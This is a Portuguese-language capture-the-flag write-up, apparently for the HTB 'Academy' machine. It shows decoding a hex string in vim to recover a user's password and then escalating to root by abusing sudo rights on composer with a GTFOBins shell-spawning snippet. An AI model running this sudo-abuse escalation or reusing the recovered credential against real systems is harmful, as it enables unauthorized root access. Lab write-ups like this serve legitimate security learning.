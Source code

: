 - Abrir um arquivo em modo de ediçaõ com `vim`

```bash
vi /tmp/test
```

- Pressione `Esc` para entrar em modo de comando e digite `:% !xxd`. Isto irá converter o conteúdo atual do arquivo para hexadecimal.

- Agora pressionando a tecla `i` vai ativar o modo de inserção (insert mode), onde vamos colar o conteúdo HEX obtido logo após o valor `00000000:`.

- Pressionando `Esc` novamente para retornar no modo commando e digitando `:% !xxd -r` fará que o conteudo exa seja convertido para ASCII.

- Você poderá salvar e sair a partir do comando `:wq!`  mas neste momento já deve ter visto o conteúdo convertido do valor HEX. Abaixo o output do arquivo que criei para realizar esta conversão:

```bash
cat /tmp/test                    
mrb3n_Ac@d3my!
```

Como **mrb3n** é um dos usuários desta máquina este pode ser possivelmente a sua senha, o que foi confirmado a partir da execuçaõ do comando `su mrb3n` e digitando a senha encontrada.

Enumerando suas permissões, notei que ele não é membro de nenhum grupo especial na máquina porém possui privilégios para executar o binário **composer** com privilégios de root.

```bash
mrb3n@academy:~$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
mrb3n@academy:~$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

### Abusando das permissões de `sudo`

Buscando no [GTFOBins](https://gtfobins.github.io/gtfobins/composer/) vi que é possivel escalar privilégios utilizando o composer a partir da execução do snippet abaixo, que funcionou sem grandes problemas:

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

Como **root**, finalmente obtive a flag no caminho `/root/root.txt`

```bash
root@academy:~# id
uid=0(root) gid=0(root) groups=0(root)
root@academy:~# cat root.txt 
<redacted>
root@academy:~#
```

Espero que tenham gostado!

Vejo vocês novamente em breve! :smiley:
